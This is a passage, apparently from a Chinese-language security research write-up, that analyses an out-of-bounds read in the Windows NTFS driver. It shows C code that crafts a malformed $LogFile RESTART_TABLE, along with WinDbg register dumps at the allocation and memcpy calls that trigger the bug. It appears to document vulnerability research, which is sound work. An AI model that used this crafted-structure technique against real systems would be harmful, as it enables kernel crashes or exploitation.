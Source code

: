 ```
  lpRestartTable->Reserved = 0x42424242;
  lpRestartTable->FreeGoal = 0x42424242;
  lpRestartTable->FirstFree = 0x0;
  lpRestartTable->LastFree = 0x0;
```  
  
当我们正确构造 RESTART_TABLE  
结构后，ntfs!ReadRestartTable  
函数应能成功执行，并到达以下代码：  
```
1: kd> p
rax=0000000000000001 rbx=0000000000000000 rcx=0000000000000210
rdx=00000000fffdedcf rsi=ffff8002cbf1b668 rdi=00000000fffdedcf
rip=fffff8011ea23be3 rsp=fffffa07e414eac0 rbp=fffffa07e414f8e0
 r8=000000005246744e  r9=0000000000000001 r10=fffff80119ca9cc0
r11=fffffa07e414ea50 r12=fffffa07e414ed50 r13=ffff8002d0ddf4f0
r14=0000000000000001 r15=ffff8002d0ddf1b0
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040202
Ntfs!InitializeRestartState+0xb17:
fffff801`1ea23be3 e8d86028fb      call    nt!ExAllocatePoolWithTag (fffff801`19ca9cc0)
```  
  
为了成功分配足够的虚拟内存（**rdx=fffdedcfh**  
），目标虚拟机必须拥有足够的虚拟内存，否则漏洞将无法被触发。  
  
在 nt!ExAllocatePoolWithTag  
成功分配请求的内存后，我们将到达目标 memmove  
函数。  
```
1: kd> p
rax=0000000000000000 rbx=ffffd48000000000 rcx=ffffd48000000000
rdx=ffff92079effd460 rsi=ffffd48f02609018 rdi=00000000fffdedcf
rip=fffff800544d3c1e rsp=fffffe879829fac0 rbp=fffffe87982a08e0
 r8=00000000fffdedcf  r9=0000000000000062 r10=00000000ffffffff
r11=0000000000030c90 r12=fffffe879829fd50 r13=ffffd48f027ed4f0
r14=0000000000000001 r15=ffffd48f027ed1b0
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00040246
Ntfs!InitializeRestartState+0xb52:
fffff800`544d3c1e e8dd59e8ff      call    Ntfs!memcpy (fffff800`54359600)
```  
  
**RDX**  
寄存器保存了数据源地址，该地址实际上是 CacheManager 映射的 **LogFile**  
内存区域。可以看到该区域没有足够的内存，因此应该会发生越界读取 (OOB read)。  
```
Usage:                  System Cache
Base Address:           ffff9207`9efc0000
End Address:            ffff9207`9f000000
Region Size:            00000000`00040000
VA Type:                SystemRange
VACB:                   ffffd48efca69f20 [\$LogFile]
```  
  